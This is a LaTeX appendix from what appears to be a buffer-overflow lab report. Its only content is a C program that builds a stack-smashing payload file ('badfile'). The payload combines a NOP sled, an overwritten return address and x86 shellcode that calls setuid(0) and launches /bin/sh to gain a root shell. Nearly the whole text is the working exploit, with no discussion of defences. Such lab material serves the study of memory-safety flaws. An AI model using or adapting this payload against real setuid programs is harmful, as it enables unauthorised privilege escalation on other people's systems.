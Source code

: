 \documentclass[12pt, a4paper, pdflatex]{article}
\begin{document}
\begin{appendices}
\lstset{
	captionpos=b,
	frame=single,
	language=C,
	breaklines=true,
	caption=Exploit for getting root with bash,
	label=bof:exploit2
}
\begin{lstlisting}
/* exploit.c - Bash version  */
/* A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

/* 
	Shell code from: 
	http://shell-storm.org/shellcode/files/shellcode-598.php 
*/
char shellcode[]=
"\x31\xdb"             /* xor    %ebx,%ebx       */
"\x8d\x43\x17"         /* lea    0x17(%ebx),%eax */
"\xcd\x80"             /* int    $0x80           */
"\x53"                 /* push   %ebx            */
"\x68\x6e\x2f\x73\x68" /* push   $0x68732f6e     */
"\x68\x2f\x2f\x62\x69" /* push   $0x69622f2f     */
"\x89\xe3"             /* mov    %esp,%ebx       */
"\x50"                 /* push   %eax            */
"\x53"                 /* push   %ebx            */
"\x89\xe1"             /* mov    %esp,%ecx       */
"\x99"                 /* cltd                   */
"\xb0\x0b"             /* mov    $0xb,%al        */
"\xcd\x80"             /* int    $0x80           */
;

void main(int argc, char **argv)
{  
	char buffer[517];
	FILE *badfile;
	long fcP;
	int buffer_size, shell_code_size;
	
	buffer_size = sizeof(buffer);
	shell_code_size = sizeof(shellcode);
	
	/* Initialize buffer with 0x90 (NOP instruction) */
	memset(&buffer, 0x90, 517);
	
	/* You need to fill the buffer with appropriate contents here */
	printf("Size of shellcode: %d\n", sizeof(shellcode));
	
	/* Print stack pointer */
	fcP = &buffer;
	
	/* Make sure is multiple of 4 */ 
	while(fcP % 4 != 0) {
		fcP += 1;
	}
	
	printf ("Using Stack pointer at address: %x\n", fcP);
	printf ("Buffer size: %d, shell code size: %d\n", buffer_size, shell_code_size);
	
	/* Compute how far we can palce shell code, we want it towards the end of buffer */
	long address_to_copy_to = fcP + buffer_size - 1 - shell_code_size;
	printf ("I will start writing to %08x\n", address_to_copy_to);
	
	/* We use address of buffer as reference, but we want to jump a bit more into the stack,
	yet not too far */
	fcP += 80;
	
	/* Place the address we want to in a position 
	that would overwrite return address (16 bytes into stack) */
	long addr = fcP;
	long *ptr = (long*)(buffer + 16);
	*(ptr) = addr;
	
	/* Copy shellcode */
	memcpy(address_to_copy_to, shellcode, shell_code_size);
	
	/* Save the contents to the file "badfile" */
	badfile = fopen("./badfile", "w");
	fwrite(buffer, 517, 1, badfile);
	fclose(badfile);
}
\end{lstlisting}

\end{appendices}
\end{document}
